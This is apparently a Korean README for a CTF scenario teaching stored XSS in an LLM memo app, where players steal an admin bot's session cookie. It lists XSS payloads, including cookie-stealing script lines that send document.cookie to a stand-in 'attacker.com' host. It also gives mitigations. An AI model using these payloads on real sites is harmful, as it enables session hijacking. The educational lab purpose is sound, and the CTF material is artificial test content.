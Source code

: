 # 🧩 CTF 시나리오 05: 부적절한 출력 처리 (Improper Output Handling / XSS)

<br>

## 📌 시나리오 ID

`SCENARIO_05`

## 🧠 시나리오 개요

글로벌 IT 기업 LLL Corporation은 고객 감정 케어를 위해 ‘AI 메모 응원 시스템’을 도입하였다. 이 시스템은 사용자가 작성한 메모를 기반으로 OpenAI 모델을 활용해 긍정적인 응원 메시지를 자동 생성하는 구조로 되어 있다. 메모와 응원 메시지는 HTML 형태로 렌더링되며, 관리자 J대리가 주기적으로 해당 내용을 검토한다. 그러나 이 시스템에는 사용자 입력과 AI 응답 모두에 대한 필터링이 적용되지 않아, 악성 스크립트가 그대로 반영될 수 있는 XSS 취약점이 존재한다.

공격자는 이 취약점을 악용하여 메모 입력란에 JavaScript 코드를 삽입할 수 있으며, J 대리가 메모 내용을 검토할 때 해당 스크립트가 실행된다. 이때 J 대리의 브라우저에서 저장된 관리자용 세션 쿠키가 스크립트에 의해 탈취되어 공격자에게 전달될 수 있다. 시스템 내부적으로는 Selenium 기반의 시뮬레이션 브라우저가 실행되어, 실제로 악성 스크립트가 작동하는지 판단하고 탈취된 쿠키 값을 수집하도록 설계되어 있다.

참가자는 AI 메모 응원 시스템에서 발생하는 Stored XSS 취약점을 이용해 J대리의 관리자 쿠키를 탈취하고, 이 쿠키를 인증 입력란에 제출함으로써 최종 플래그를 획득하는 것이 목표이다. 이 시나리오는 ChatGPT와 같은 LLM 기반 서비스에서도 사용자 입력 및 출력 필터링이 얼마나 중요한지를 보여주는 사례로, 프롬프트 인젝션과 유사한 맥락에서 웹 보안 위협을 학습하도록 설계되었다.

<br>

## 🎯 시나리오 목표

* 사용자 입력을 통한 악성 스크립트 삽입하기

* 관리자 권한을 가진 J 대리가 메모를 검토할 때 삽입한 악성 스크립트가 실행되도록 만들어 그의 브라우저에 저장된 세션 쿠키를 탈취하기

* 탈취한 쿠키 정보를 시스템 내 쿠키 인증 입력란에 제출하여 최종 플래그 획득하기

<br>

## 🛠️ UI 구성 요소

| 구성 요소 | 설명 |
|-----|-----|
| 👀 헤더 및 문제 설명 | 시나리오 제목, 설명 문구 표현 |
| 📥 프롬프트 입력창 | 사용자가 질문을 입력 |
| 🧪 LLM 응답 출력창 | 시스템 프롬프트에 따라 응답이 다르게 출력 |
| 🎯 힌트 보기 버튼 | 버튼 클릭 시 힌트 메시지 표시 (공격 방향 가이드 제공) |
| 🤖 현재 메모 목록 | 대화 내용 공유 |
| 💬 새 메모 작성 창 | 대화 내용 공유 |
| 🏁 FLAG 제출창 | 획득한 flag를 입력하여 정답 여부 확인 |

<br>

## 💥 공격 흐름 예시
### 1. 공격 기법

| 기법 | 설명 |
|-----------|------|
| `<script>` 삽입 | `<script>alert(1)</script>` 형태로 기본적인 XSS 실행                               |
| 쿠키 탈취         | `<script>location.href='http://attacker.com?c='+document.cookie</script>` |
| 이미지 오류 이벤트    | `<img src=x onerror=alert('XSS')>`                                        |
| HTML 엔티티 우회   | `&lt;script&gt;alert(1)&lt;/script&gt;`                                   |
| DOM 조작        | `<script>document.body.innerHTML='hacked'</script>`                       |

### 2. 동작 흐름

| 단계 | 설명 |
|-----------|------|
| 1  | 사용자가 메시지를 입력하면 `conversation_history`에 저장됨                                            |
| 2  | `ctf05_LLM_ask()` 함수가 GPT-3.5-turbo를 호출해 응답 생성                                        |
| 3  | `ctf05_generate_share_html()` 함수가 대화 내역을 HTML 파일로 변환함. 이때 사용자 입력이 escape되지 않고 그대로 삽입됨 |
| 4  | `ctf05_admin_bot_visit()` 함수가 관리자의 HTML 열람을 헤드리스 브라우저로 시뮬레이션함                         |
| 5  | 악의적 JavaScript가 실행되어 `document.cookie`를 통해 쿠키가 탈취됨 |

### 3. 위협 요소 및 대응 방안

| 위협 | 설명 | 대응 |
|-----------|------|------|
| 세션 쿠키 탈취         | 관리자 인증 우회 가능     | `HttpOnly`, `Secure` 속성 사용      |
| 관리자 권한 탈취        | 민감 정보 접근, 시스템 조작 | 사용자 입력 검증 및 출력 인코딩              |
| JavaScript 임의 실행 | 악성 행위 유도         | CSP(Content Security Policy) 적용 |

### 4. 보안 권장 사항

* 사용자 입력은 반드시 출력 전 `html.escape()` 처리 또는 Jinja2 autoescape 기능 사용
* CSP 적용을 통해 인라인 및 외부 스크립트 제한
* 모든 사용자 입력에 대한 서버 측 필터링 적용
* `HttpOnly`, `Secure` 쿠키 설정으로 브라우저 접근 차단

<br>

## ✅ 테스트 케이스 예시

| 입력 | 기대 응답 |
|-----|-----|
| `안녕하세요`                                                          | 정상 HTML 생성, XSS 없음  |
| `<script>alert(1)</script>`                                      | 관리자 브라우저에서 alert 실행 |
| `<img src=x onerror=alert('XSS')>`                               | 관리자 브라우저에서 alert 실행 |
| `<script>fetch('http://attacker.com?'+document.cookie)</script>` | 쿠키 탈취 가능            |

<br>

## 🧪 Flag 제출 방식

사용자는 획득한 Flag를 다음과 같이 제출합니다:

```
flag{answer}
```

정답이면 ✅ `"정답입니다!"` 출력  
오답이면 ❌ `"틀렸습니다."` 출력

<br>

## 🔐 모델 요구 조건

* 관리자 브라우저에서 악성 스크립트가 실행되어야 함

* `admin_session` 쿠키를 외부 서버로 전송해야 함